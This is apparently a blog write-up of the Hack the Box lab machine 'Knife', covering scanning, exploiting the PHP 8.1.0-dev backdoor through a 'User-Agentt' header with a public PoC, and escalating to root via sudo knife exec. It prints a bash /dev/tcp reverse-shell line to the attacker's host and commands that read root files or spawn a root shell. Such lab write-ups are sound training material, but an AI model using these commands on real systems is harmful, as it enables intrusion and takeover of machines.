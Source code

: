 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
date = 2021-08-28T16:35:39Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/08/knife.png"
slug = "hack-the-box-knife"
summary = "Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!\n"
tags = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
title = "Hack the Box - Knife"

+++


Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!

As usual, we start with `nmap`:

```
Nmap scan report for 10.10.10.242
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we view what's being hosted on port 80 we are brough to a hospital hosting site. There isn't anything notable on the site that we can access. We'll start by enumerating with `ffuf`.

Command:
`ffuf -u http://10.10.10.242/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -fs 277`

In this case we use the `-fs` to hide responses with a size of 277 because of the amount of false positives. There is nothing additional. So we move on to using `Burpsuite`. When we load up `Burpsuite` and view our request / response, we see a hint:

{{< figure src="__GHOST_URL__/content/images/2021/08/image.png" >}}

The `X-Powered-By` Header value. The first google results gives us [this](https://packetstormsecurity.com/files/162864/PHP-8.1.0-dev-Backdoor-Remote-Command-Execution.html). They were so kind to even give us a PoC script. We download the PoC and execute it:

Command:
`python3 exploit.py -l http://10.10.10.242`

When we run it, we get an interactive shell back.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-1.png" >}}

We use `which nc` to identify if `netcat` is on the system.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-2.png" >}}

We attempt to use `netcat` to create a shell back, but it doesn't work.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-3.png" >}}

So instead of `netcat` we'll try to catch a shell with a `bash` command.

Command:
`bash -i >& /dev/tcp/10.10.14.68/6969 0>&1`

That didn't work either. So, there is a space on this PoC for proxy interface. We'll simply uncomment it and let the requests go through `Burpsuite` so we can see what's being sent.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-4.png" >}}

Now with our requests coming through Burp, we can see what's being sent. In actuallity its just a simple header value - `User-Agentt` is the value we can modify to obtain the backdoor.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-5.png" >}}

We modify the request as it comes through to send us a shell to a `netcat` listener on port 6969

{{< figure src="__GHOST_URL__/content/images/2021/08/image-6.png" >}}

Next we check to see what we can run as `root` with `sudo -l`

{{< figure src="__GHOST_URL__/content/images/2021/08/image-7.png" >}}

We see that we can run an app called `knife`. Some googling finds us the [documentation](https://docs.chef.io/workstation/knife_exec/). There's a section for `exec`. This function lets us execute codes through itself. After some trial and error, we were able to craft a command to get the root flag.

Command:
`sudo /usr/bin/knife exec -E "exec 'cat /root/root.txt'"`

Now you could also call an interactive `bash` shell and work that way

Command:
`sudo /usr/bin/knife exec -E "exec '/bin/bash -i'"`

Either way gets us our `root.txt` flag! This was a very fast and simple box. The hardest part was understanding the `exec` pattern in the `Knife` command.



